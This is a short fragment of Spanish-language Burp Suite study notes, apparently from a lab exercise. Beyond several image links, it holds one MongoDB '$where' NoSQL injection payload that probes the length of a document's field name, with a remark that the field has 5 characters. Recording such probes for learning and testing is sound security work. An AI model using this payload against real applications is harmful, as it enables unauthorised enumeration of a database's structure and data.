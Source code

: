 ![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%207.png)

```jsx
"$where":"function(){ if (Object.keys(this)[3].length == 6 ) return 1; else 0;}"
Asi que tiene 5 caracteres
```

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%208.png)

![image.png](Burp%20Suite%202561af578eba4b378c28fe54b47dd0b7/image%209.png)
